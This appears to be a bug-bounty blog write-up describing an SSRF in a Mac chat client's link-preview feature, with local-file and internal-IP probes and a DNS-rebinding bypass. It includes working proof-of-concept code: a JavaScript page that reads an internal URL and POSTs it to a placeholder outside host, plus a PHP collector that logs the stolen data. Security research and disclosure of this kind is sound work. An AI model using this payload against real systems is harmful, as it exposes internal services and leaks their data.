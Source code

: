 # [bugbounty]A Simple SSRF
I was working on a private program which i cannot disclose

First of all, its web assets have several subdomains. After I tested it for a while, I plan to look at the mac client.

The mac client has an chat interface where i found a SSRF.

The following is the whole process
After installation, sign up for login, then I see a chat interface.

Send a URL

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t1.png)
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**poc**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t8.png)
Url decoding

![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t9.png)
**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![enter image description here](https://user-images.githubusercontent.com/5891788/53449161-87e47300-3a19-11e9-8e3c-7b7bdfeaab6b.png)

Details from https://github.com/mpgn/ByP-SOP

Finally 
![enter image description here](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/t11.png)
I got the highest bounty reward for this private project.
![enter image description here](https://1.bp.blogspot.com/-3GE4BNyvnIk/XcJCEXqEEXI/AAAAAAAAACQ/6vs1Kn_Ef-Iph3bSnDgT7fG4T3vW1BKhACLcBGAsYHQ/s1600/1.png)

